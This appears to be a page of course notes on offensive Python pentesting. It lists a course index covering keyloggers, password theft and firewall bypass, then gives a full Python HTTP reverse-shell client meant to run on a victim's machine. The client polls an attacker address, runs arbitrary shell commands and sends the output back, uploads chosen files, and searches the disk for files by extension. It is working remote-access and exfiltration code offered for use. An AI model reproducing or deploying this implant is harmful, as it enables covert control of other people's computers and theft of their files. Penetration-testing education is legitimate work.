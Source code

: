 ```yaml
---
title: Coding a reverse shell that searches files
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - reverse shell
---
```


# Coding a reverse shell that searches files


From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


## Client side

To be run in the victim's machine.

```python

import requests
import os
import subprocess
import time

while True:
    req = requests.get('http://192.168.0.152:8080')
    command = req.text
    if 'terminate' in command:
        break
    elif 'grab' in command:
        grab, path = command.split("*")
        if os.path.exists(path):
            url = "http://192.168.0.152:8080/store"
            filer = {'file': open(path, 'rb')}
            r = requests.post(url, files=filer)
        else:
            post_response = requests.post(url='http://192.168.0.152:8080', data='[-] Not able to find the file!'.encode())
    elif 'search' in command: #The Formula is search <path>*.<file extension>  -->for example let's say that we got search C:\\*.pdf
        command = command[7:] #cut off the the first 7 character ,, output would be  C:\\*.pdf
        path, ext = command.split('*')
        lists = '' # here we define a string where we will append our result on it

#os.walk is a function that will naviagate ALL the directoies specified in the provided path and returns three values:-
#1-dirpath is a string contains the path to the directory
#2-dirnames is a list of the names of the subdirectories in  dirpath
#3-files is a list of the files name in dirpath

#Once we got the files list, we check each file (using for loop), if the file extension was matching what we are looking for, then we add the directory path into list string.



        for dirpath, dirname, files in os.walk(path):
           for file in files:
               if file.endswith(ext):
                   lists = lists + '\n' + os.path.join(dirpath, file)
        requests.post(url='http://192.168.0.152:8080', data=lists)
    else:
        CMD = subprocess.Popen(command, shell=True,stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        post_response = requests.post(url='http://192.168.0.152:8080', data=CMD.stdout.read())
        post_response = requests.post(url='http://192.168.0.152:8080', data=CMD.stderr.read())
    time.sleep(3)


```
